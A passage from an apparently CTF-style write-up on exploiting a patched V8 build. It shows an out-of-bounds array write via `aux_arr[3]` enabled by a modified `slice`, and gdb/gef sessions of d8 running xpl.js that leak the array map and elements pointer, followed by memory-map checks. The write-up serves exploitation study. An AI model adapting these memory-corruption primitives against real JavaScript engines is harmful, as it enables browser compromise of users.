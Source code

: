 ```js
aux_arr[3] = itof(1337n, 32);
```

If you're wondering why `3` specifically, if you see the above code snippet, we have 3 elements in `aux_arr` from index `0-2`, then we call `slice` on the array with the count being the array, because of the patch we know calling the `slice` will add 2 more to the length than it originally have, hence allowing us to access map of the array and the element pointer.

Let's run the `d8` with the `xpl.js` of ours and see if it worked or not:-

```asm
gef➤  r --shell --allow-natives-syntax ~/CTFs/xpl.js 
Starting program: /home/d4mian/Pwning/v8/out.gn/x64.release/d8 --shell --allow-natives-syntax ~/CTFs/xpl.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff65fe700 (LWP 2403)]
[+] Float array map: 0x82438fd
[+] Pointer to array elements: 0x8084ec1
V8 version 8.7.9
d8> 
```

It successfully ran, that means it worked. Now, to see if it really worked ot not, we have to analyse the memory, from the leak we know the lower 32 bits of the elements pointer address and with the help of `gef`'s `vmmap`, we can get isolate root address, with that we can check that the write worked or not.

```asm
gef➤  r --shell --allow-natives-syntax ~/CTFs/xpl.js 
Starting program: /home/d4mian/Pwning/v8/out.gn/x64.release/d8 --shell --allow-natives-syntax ~/CTFs/xpl.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff65fe700 (LWP 2403)]
[+] Float array map: 0x82438fd
[+] Pointer to array elements: 0x8084ec1
V8 version 8.7.9
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.

-- snip --

gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000365100000000 0x000036510000c000 0x0000000000000000 rw- 
0x000036510000c000 0x0000365100040000 0x0000000000000000 --- 
0x0000365100040000 0x0000365100043000 0x0000000000000000 rw- 
0x0000365100043000 0x0000365100044000 0x0000000000000000 --- 
0x0000365100044000 0x0000365100054000 0x0000000000000000 r-x 
0x0000365100054000 0x000036510007f000 0x0000000000000000 --- 
0x000036510007f000 0x0000365108040000 0x0000000000000000 --- 
0x0000365108040000 0x000036510805f000 0x0000000000000000 r-- 


-- snip --
```
